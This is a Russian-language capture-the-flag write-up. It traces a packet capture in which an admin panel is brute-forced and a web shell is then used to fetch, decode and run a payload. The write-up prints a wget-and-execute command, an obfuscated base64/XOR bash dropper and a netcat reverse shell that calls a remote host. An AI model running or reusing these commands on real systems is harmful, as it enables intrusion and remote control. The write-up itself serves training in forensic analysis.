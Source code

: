 1. Фильтруем HTTP пакеты и видим, что у нас происходит брут УЗ для доступа к панели админа. Брут удался, креды админа - ```admin:s3cr3t```.
2. Сайт все еще в разработке, поэтому разработчики оставили сюрприз в виде возомжности выполнять команды через админ панель. Через эту панель подгружается и запускается файл - ```/admin?cmd=wget http://192.168.0.68/1j442dSAw && chmod +x ./1j442dSAw && ./1j442dSAw```.
3. Файл выглядит так:
    ```
    #!/bin/bash
    
    nASDfasd=$(echo "bmMgLWwgLXAgMTIzNCAtcSAxCg==" | base64 -d | bash);koaZXDas=$(echo "$nASDfasd" | base64 -d);xTEAjkds=$(printf "\x13\x37");zirnFSA="";for (( i=0; i<${#koaZXDas}; i++ )); do FsineAS="${koaZXDas:$i:1}";AiejSAF="${xTEAjkds:$((i % ${#xTEAjkds})):1}";Neifunweid=$(printf "%d" "'$FsineAS");KEBAniusad=$(printf "%d" "'$AiejSAF");NAuehAS=$(( $Neifunweid ^ $KEBAniusad ));zirnFSA+=$(printf "\\\x%02x" "$NAuehAS"); done; echo -ne "$zirnFSA" >> asorASde231;chmod +x ./asorASde231;./asorASde231
    ```
    Или, если немного привести в порядок, так:
    ```
    #!/bin/bash
    
    decoded_payload=$(nc -l -p 1234 -q 1);
    payload=$(echo "$decoded_payload" | base64 -d);
    key=$(printf "\x13\x37");
    result="";
    for (( i=0; i<${#payload}; i++ )); do
        char="${payload:$i:1}";
        char_key="${key:$((i % ${#key})):1}";
        char_dec=$(printf "%d" "'$char");
        char_key_dec=$(printf "%d" "'$char_key");
        xored=$(( $char_dec ^ $char_key_dec ));
        result+=$(printf "\\\x%02x" "$xored");
    done;
    
    echo -ne "result" >> rev_shell;
    chmod +x ./rev_shell;
    ./rev_shell
    ```
    То есть скрипт подгружает еще один файл, декодирует его содержимое из base64, затем ксорит с ключом ```\x13\x37```
3. Смотрим, что у нас передавалось по порту 1234 и видим содержимое файла:
    ```
    dlR7WDMVY0B9UncWMT12VHtYMxVUUmdDell0F2FSZVJhRHYXYF92W38ZPRkxPX1UMwYqBT0GJQ89Bz0BKxcnAycDMxp2FzxVelk8VXJEez12VHtYMxVUUmdDell0F3VbclA9GT0VGVJwX3wXMWRmVHBSYEQpF2VFfVRnUWgEfVQjUyBTTEcnTiIHJ1NMQ3tFI0J0X0xAIFVMRHsEf1tMRCNocQNgBnBoJ1YiVCdRbhUZ
    ```
4. Декодируем его из base64, ксорим с ```\x13\x37``` и получаем следующее:
    ```
    echo "pwned!"
    echo "Getting reverse shell..."
    nc 192.168.0.68 4444 -e /bin/bash
    echo "Getting flag..."
    echo "Success: vrnctf{3nc0d3d_p4y104d_thr0ugh_w3b_sh3ll_s0_b4s1c_4a1c4f}"
    ```
5. Отсюда получаем флаг: ```vrnctf{3nc0d3d_p4y104d_thr0ugh_w3b_sh3ll_s0_b4s1c_4a1c4f}```